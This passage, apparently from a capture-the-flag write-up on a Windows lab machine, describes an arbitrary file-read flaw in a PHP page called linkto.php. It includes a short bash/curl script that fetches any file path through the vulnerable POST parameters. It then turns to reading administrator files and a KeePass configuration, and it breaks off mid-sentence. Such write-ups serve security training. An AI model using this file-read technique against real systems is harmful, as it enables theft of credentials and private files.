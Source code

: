 
{% include image.html image_alt="0ec6e212.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/0ec6e212.png" %}


Something funky is going on in `linkto.php`!


{% include image.html image_alt="a3719128.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/a3719128.png" %}


Can you see the vulnerability? We can read files as long as there are two POST parameter: `PiperID` and `PiperCoinID` (path to the file). Let's read `c:\users\nginx\desktop\user.txt`!


{% include image.html image_alt="4c515d00.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/4c515d00.png" %}


### Getting to `root.txt`

Armed with this knowledge, I wrote a `bash` script that allows me to fetch files and display them on the standard output, given the file path as the arguement.

<div class="filename"><span>fetch.sh</span></div>

```bash
#!/bin/bash

GARBAGE=18684
TEMP=$(mktemp -u)
FILE=$1

curl -s \
     -d "PiperID=" \
     -d "PiperCoinID=$FILE" \
     -o $TEMP \
     http://127.0.0.1:5080/testlink/linkto.php

SIZE=$(wc -c < $TEMP)

dd if=$TEMP count=$((SIZE - GARBAGE)) bs=1 2>/dev/null

# clean up
rm -f $TEMP
```

Let's see if we can read `root.txt`.


{% include image.html image_alt="7d60a8f8.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/7d60a8f8.png" %}


Seriously, WTF??!! Wait a tick, maybe I can read other files in `c:\users\administrator`? During my enumeration I also noticed KeePass was installed at `c:\Program Files\kpps`. According to KeePass Help Center, the [configuration](https://keepass.info/help/base/configuration.html) file is stored at:
